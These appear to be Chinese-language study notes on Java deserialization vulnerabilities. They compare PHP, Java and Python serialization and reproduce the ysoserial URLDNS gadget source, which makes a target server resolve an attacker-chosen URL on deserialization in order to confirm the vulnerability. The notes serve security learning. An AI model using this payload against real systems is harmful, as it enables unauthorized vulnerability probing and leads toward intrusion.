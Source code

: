 ## [Java安全漫谈 - 07.不同语言中的反序列化漏洞](https://t.zsxq.com/NF2NfQf)

### 何为序列化和反序列化

序列化: 在网络上传输的数据按照特定的格式转换为二进制数据

反序列化: 将二进制数据转换回来



`反序列化漏洞`是对一类漏洞的泛指，而不是专指某种反序
列化方法导致的漏洞，比如`Jackson反序列化漏洞`和`Java readObject`造成的反序列化漏洞就是完全不同的两种漏洞。

---

### Java序列化更深入的原因

 `writeObject `允许开发者在序列化流中插入一些自定义数据，进而在反序列化的时候能够使用` readObject `进行读取。

### PHP,JAVA,Python反序列化的区别

**1. PHP**

PHP的序列化是开发者不能参与的，开发者调用 serialize 函数后，序列化的数据就已经完成了，你得到的是一个完整的对象，你并不能在序列化数据流里新增某一个内容，你如果想插入新的内容，只有将其保存在一个属性中。也就是说PHP的序列化、反序列化是一个纯内部的过程，而其 `__sleep` 、`__wakeup`魔术方法的目的就是在序列化、反序列化的前后执行一些操作。



**2.Java**

Java在序列化时一个对象，将会调用这个对象中的 `writeObject `方法，参数类型是
`ObjectOutputStream `，开发者可以将任何内容写入这个stream中；反序列化时，会调用`readObject `，开发者也可以从中读取出前面写入的内容，并进行处理。

`writeObject`方法会先调用`ObjectOutputStream`中的`defaultWriteObject()`方法，该方法会执行默认的序列化机制。然后才是`writeObject`

代码:

```md
private void writeObject(java.io.ObjectOutputStream s) throws
IOException {
    s.defaultWriteObject();
    s.writeObject("This is a object");
 }
```

使用工具解析序列化数据 https://github.com/NickstaDB/SerializationDumper

会发现我们写入的字符串 `This is a object` 被放在 `objectAnnotation` 的位置

**3.Python(危害最高)**

Python的反序列化过程实际上是在执行一个基于栈的虚拟机。我们可以向栈上增、删对象，也可以执行一些指令，比如函数的执行等，甚至可以用这个虚拟机执行一个完整的应用程序。

---

## [Java安全漫谈 - 08.认识最简单的Gadget——URLDNS](https://t.zsxq.com/ieMZBQj)

**注意:此处需要实操,具体请百度 URLDNS，跟着别人做一遍**

### 名词解释:

**Gadget**: 链子,指的是 从触发位置开始到执⾏行行命令的位置结束

**CC**:  `CommonsCollections`, Java中应用广泛的一个库

**ysoserial**: CC链利用的一个著名工具



### URLDNS源码——选自ysoserial

**试着阅读英文，机翻可能更看不懂，不会的单词就查**

```java
public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); // The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered [是hashCode的计算操作触发了DNS请求。]

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

       /**
         * <p>This instance of URLStreamHandler is used to avoid any DNS resolution while creating the URL instance.
         * DNS resolution is used for vulnerability detection. It is important not to probe the given URL prior
         * using the serialized object.</p>
         *
         * <b>Potential false negative:</b>
         * <p>If the DNS name is resolved first from the tester computer, the targeted server might get a cache hit on the
         * second resolution.</p>
         */
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}
```

